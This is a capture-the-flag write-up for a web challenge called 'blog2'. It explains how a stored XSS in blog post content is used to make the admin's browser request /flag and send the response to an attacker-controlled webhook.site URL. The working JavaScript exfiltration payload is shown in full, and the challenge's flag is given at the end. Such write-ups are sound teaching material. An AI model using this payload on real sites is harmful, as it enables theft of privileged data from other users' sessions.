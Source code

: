 # blog2

In this challenge we are provided an identical webpage as the `blog` challenge. On this site we know there is an XSS vulnerability in the content field of each blog post. For this reason getting XSS with ex. `<script>alert(1);</script>` works fine as a PoC for XSS on the site.

However, we are provided an endpoint in the challenge description of `/flag`, when requesting this site with out own user we are proveded a message of `Only for the admin`. We are also told that the admin checks the site quite often. One would initially assume that the challenge would be to write a cookie stealer and get the cookie of the admin, however based upon the protections set on our own cookie this would not be possilbe. Here we have the flag `httpOnly` flag set, which means that we cannot access the flag value directly. However, the cookies are still used in requests within the same site as long as it is the admins browser that makes the request. The challenge should now be clear, and we have to get the admin to request this endpoint, and send the conent of this page somewhere.

To do this we can craft an AJAX query, which will request `/flag` and send the content of this site to a site we control. We'll add the content to the end of the url as a parameter, and hope that there is only a simple string on the site and not an image or something that would be to large for the URL. The AJAX query will trigger when we ourself also trigger the XSS on the page, but then the parameter will be the same message as we would see normally of `Only for hte admin`, but it is still helpful to see as it means the XSS is working. 

The following snippet will do what is described above. Note that the cookies are specified nowhere, as they are used by default. The request is pointing to `webhook.site`, which is a useful site to listen for requests instead of exposing our own webserver.

```js
<script>

function loadDoc() {
  const xhttp = new XMLHttpRequest();
  xhttp.onload = function() {
        xhttp.open("GET", "https://webhook.site/80d51203-cbf5-4e58-a018-5c90aff3c67a/?"+this.responseText);
    xhttp.send();
  }
  xhttp.open("GET", "/flag");
  xhttp.send();
}

loadDoc();

</script>
```


Flag: `EPT{c4us3_sl33p_i5_th3_c0u5in_0f_d34th}`